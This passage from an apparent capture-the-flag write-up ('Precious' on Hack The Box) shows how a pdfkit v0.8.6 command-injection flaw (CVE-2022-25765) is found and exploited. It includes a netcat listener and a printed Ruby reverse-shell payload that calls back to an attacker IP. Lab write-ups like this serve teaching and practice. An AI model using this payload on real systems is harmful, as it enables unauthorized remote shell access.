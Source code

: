 It connected back to us, and it also downloaded for us a `pdf` file with a random generated name: `1nib9e3zxiltbfnl4jlsyc3z9cf77fik.pdf`. When an app generates any sort of file, we can check its metadata to see if anything interesting lies there:

```bash
$ exiftool 1nib9e3zxiltbfnl4jlsyc3z9cf77fik.pdf
ExifTool Version Number         : 12.70
File Name                       : 1nib9e3zxiltbfnl4jlsyc3z9cf77fik.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2024:01:19 19:32:33+00:00
File Access Date/Time           : 2024:01:19 19:34:37+00:00
File Inode Change Date/Time     : 2024:01:19 19:33:47+00:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We got back the app's version: `pdfkit v0.8.6`! Upon googling "*pdfkit v0.8.6 exploit*" we can see multiple references to [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765) which refers to a **Command Injection (CI)** vulnerability. There are also multiple PoCs for it, including [this](https://github.com/UNICORDev/exploit-CVE-2022-25765)
 one. Let's try using it:

```bash
# download the PoC
$ searchsploit -m 51293
  Exploit: pdfkit v0.8.7.2 - Command Injection
      URL: https://www.exploit-db.com/exploits/51293
     Path: /usr/share/exploitdb/exploits/ruby/local/51293.py
    Codes: CVE-2022–25765
 Verified: True
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/kali/htb/fullpwn/precious/51293.py


```

Let's open our listener:

```bash
# setting up a listener
$ nc -lnvp 1337
listening on [any] 1337 ...
```

Let's use the exploit:

```bash
$ python3 51293.py -s 10.10.14.15 1337 -w http://precious.htb -p url

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.15","1337"))'`
LOCALIP: 10.10.14.15:1337
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 1337".
WEBSITE: http://precious.htb
```